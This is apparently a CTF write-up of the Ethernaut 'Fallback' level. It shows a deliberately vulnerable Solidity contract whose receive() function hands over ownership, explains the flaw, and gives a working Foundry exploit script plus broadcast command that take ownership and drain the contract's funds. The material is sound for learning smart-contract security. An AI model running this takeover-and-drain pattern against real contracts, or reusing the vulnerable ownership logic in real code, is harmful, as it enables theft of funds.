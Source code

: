 ```yaml
---
title: 'Fallback - The Ethernaut'
cover: https://ethernaut.openzeppelin.com/imgs/Level1.svg
categories: ["ctf"]
tags: ["blockchain","ethernaut"]
date: 2025-09-16
lastmod: 2025-09-16
---
```


## Challenge Overview

In this level, we interact with a contract called **Fallback**.  
The goal is to:

1. Become the owner of the contract.  
2. Drain all its funds.  

At first glance, ownership seems restricted to whoever deploys the contract. However, the `receive()` function hides a critical vulnerability.

---

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
````

---

## Exploit Explanation

The vulnerability lies in the `receive()` function:

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
}
```

* To trigger it, we must **already have a contribution > 0**.
* Once this condition is met, sending Ether directly to the contract calls `receive()` and **updates the owner to our address**.

So the exploit sequence is:

1. Call `contribute()` with a tiny amount (`< 0.001 ether`) to register a contribution.
2. Send Ether directly to the contract → this calls `receive()` and transfers ownership to us.
3. Call `withdraw()` → since we’re now the owner, we can drain the contract’s balance.

---

## Exploit Script

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";
import "../src/Fallback.sol";

contract FallbackSolution is Script {
    Fallback public fallbackInstance = Fallback(payable(<YOUR_INSTANCE>));

    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));

        // Step 1: Contribute a small amount
        fallbackInstance.contribute{value: 1 wei}();

        // Step 2: Send ether directly -> triggers receive()
        (bool success, ) = address(fallbackInstance).call{value: 1 wei}("");
        require(success, "Fallback call failed");

        // Debug logs
        console.log("New Owner:", fallbackInstance.owner());
        console.log("My Address:", vm.envAddress("MY_ADDRESS"));

        // Step 3: Withdraw funds
        fallbackInstance.withdraw();

        vm.stopBroadcast();
    }
}
```

---

## Proof of Concept (PoC)

Run the exploit with Foundry:

```bash
forge script script/FallbackSolution.s.sol --rpc-url $SEPOLIA_URL --broadcast
```
